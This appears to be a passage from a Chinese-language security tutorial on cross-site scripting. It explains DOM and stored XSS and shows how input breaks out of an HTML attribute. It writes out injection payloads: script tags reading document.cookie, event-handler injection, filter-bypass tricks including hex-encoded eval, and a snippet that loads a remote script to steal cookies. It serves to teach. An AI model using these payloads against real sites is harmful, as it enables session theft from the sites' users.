 注：反射型xss和dom-xss都需要在url加入js代码才能够触发。



DOM型的XSS是一种基于网页DOM结构的攻击，该攻击特点是中招的人是少数人。存储式XSS漏洞，由于其攻击代码已经存储到服务器上或者数据库中，所以受害者是很多人。存储式XSS漏洞危害性更大，危害面更广。

**xss是如何发生的**

1、引入标签实现

假如有下面一个输入框

```<input type="text" name="address1" value="value1from">
<input type="text" name="address1" value="value1from">
```

value1from是来自用户的输入，如果用户不是输入value1from,而是输入

 ```"/><script>alert(document.cookie)</script><!-``` 

那么就会变成

```
<input type="text" name="address1" value=""/><script>alert(document.cookie)</script><!- ">
```

嵌入的JavaScript代码将会被执行。

2、利用标签里的属性

用户输入的是  

```"onfocus="alert(document.cookie)```

 那么就会变成 

```
<input type="text" name="address1" value="" onfocus="alert(document.cookie)">
```

事件被触发的时候嵌入的JavaScript代码将会被执行。攻击的威力，取决于用户输入了什么样的脚本。

除了onfocus，还有onclick点击、onmousemove鼠标移动、onload 当页面加载完成后触发……

3、过滤了解决办法

```
<img scr=1 onerror=alert('xss')>当找不到图片名为1的文件时，执行alert('xss')
<a href=javascrip:alert('xss')>s</a> 点击s时运行alert('xss')
<iframe src=javascript:alert('xss');/><iframe>利用iframe的scr来弹窗
<img src="1" onerror=eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29")></img>过滤了alert来执行弹窗
```

4、引入一整段js代码

```
<script scr="js_url"></script>
```

或者

```
<img src=x onerror=appendChild(createElement('script')).src='js_url' />
```

引入的js可以做很多事情，最严重的就是获取用户的cookies（对http-only没用）。

#### XSS攻击的危害
```